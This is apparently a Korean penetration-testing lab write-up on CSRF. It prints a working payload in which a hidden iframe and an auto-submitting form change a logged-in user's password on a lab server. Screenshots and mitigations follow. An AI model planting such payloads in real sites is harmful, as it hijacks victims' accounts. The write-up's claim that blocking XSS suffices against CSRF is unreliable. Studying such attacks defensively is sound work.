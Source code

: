 ## CSRF 모의해킹
CSRF(Cross-Site Request Forgery) 공격은 인증된 사용자의 권한을 사용하여 악의적인 요청을 보내는 공격입니다. 이번 모의해킹에서는 공격자가 악성 요청을 보내어 다른 사용자의 비밀번호를 임의로 수정하는 공격을 다루었습니다.

## 공격 실습

공격자는 다음과같은 HTML 코드를 게시글에 작성합니다.
```html
<iframe name="ifr" width=0 height=0></iframe>
<FORM target="ifr" id="chpw" METHOD="POST" action="http://192.168.219.180/login/changepw_do.php">
<INPUT type="hidden" name="pw" value="1234">
</FORM>
<script>document.getElementById("chpw").submit();</script>
패스워드 변경 1234
```
해당 코드를 살펴보면 HTML 의 iframe을 이용하여 width 와 height를 모두 0으로 설정하여 보이지 않도록하고 비밀번호를 1234로 변경하도록하는 POST 요청을 보냅니다.

**1. 사용자의 원래 비밀번호**

![csrf_userpw](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_userpw.png)

**2. 사용자가 CSRF 공격이포함된 게시글 클릭**

![csrf_click](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_click.png)

**3. 사용자의 비밀번호가 변경됨**

![csrf_changedpw](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_changedpw.png)

## 대응 방안
- CSRF 토큰 사용: 서버 측에서 발급한 CSRF 토큰을 포함하여 요청을 보내도록 클라이언트에게 요청합니다. 이 토큰은 세션에 저장되어 있는 정보를 이용하여 생성됩니다. 공격자가 이 토큰을 알지 못하면 CSRF 공격을 수행할 수 없습니다.

- XSS 공격 방지: CSRF 공격은 기본적으로 XSS 공격에 기반한 공격이기 때문에 XSS 공격을 방어하면 CSRF 공격을 방어 할 수 있습니다.
